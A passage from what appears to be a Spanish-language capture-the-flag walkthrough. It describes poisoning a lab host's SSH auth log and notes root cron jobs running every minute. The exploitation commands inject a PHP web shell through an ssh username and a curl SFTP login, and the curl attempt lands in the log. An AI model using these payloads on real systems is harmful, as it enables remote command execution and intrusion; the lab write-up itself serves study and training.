 En este punto vamos a intentar envenenar el log de ssh auth.

Algo que llama la atención son las tareas CRON que se ejecutan cada 1 minuto con el usuario root. Esto podría servir cuando logremos ingresar al sistema.

## Explotación

---

Para envenenar el log de ssh podemos hacerlo de varias formas, una de ellas es cargar código php en la parte del nombre de usuario al conectarnos por ssh.

```shell
❯ ssh '<?php system($_GET["cmd"]); ?>'@10.11.12.32
remote username contains invalid characters
```

De esta forma falla, debido a que dicha vulnerabilidad fue solucionada en SSH, podríamos probar enviar la cadena en base64 o bien realizar una llamada por `curl` al servicio `SFTP`.

```bash
curl -u '<?php system($_GET["cmd"]);?>' sftp://10.11.12.32/anything
Enter host password for user '<?php system($_GET["cmd"])':
curl: (67) Authentication failure
```

De esta forma le gustó, verificamos el log nuevamente y encontramos nuestra conexión.
